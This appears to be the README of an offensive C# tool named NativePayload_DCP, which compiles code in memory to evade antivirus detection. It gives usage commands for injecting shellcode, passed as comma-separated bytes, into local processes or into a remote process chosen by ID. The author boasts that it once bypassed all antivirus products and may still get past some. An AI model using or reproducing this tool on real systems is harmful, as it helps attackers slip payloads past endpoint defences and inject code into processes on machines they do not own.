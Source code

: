 # NativePayload_DCP

### Compiling Csharp in-memory and Execute to bypass AVs

#### Note: Code created by me in [Jun 2017] and Published in [Mar 2023] ;D but still can help you to bypass some AVs ;)

#### Note: ALL AVs in 2017 Bypassed by this simple code but for now i am not sure for this. 


usage:
      
    Syntax: injection into local process
    
    NativePayload_DCP.exe DYN-PAY-ARG "fc,48,83,e4,f0,e8,cc,00,00,00,41,51,..."
    
    Syntax: injection into remote process
    
    NativePayload_DCP.exe DYN-TEXT-FILE CHUNK NativePayload_Tinjection.cs TPID "fc,48,83,e4,f0,e8,cc,00,00,00,41,51,..."
    NativePayload_DCP.exe DYN-TEXT-FILE Src NativePayload_Tinjection.cs TPID

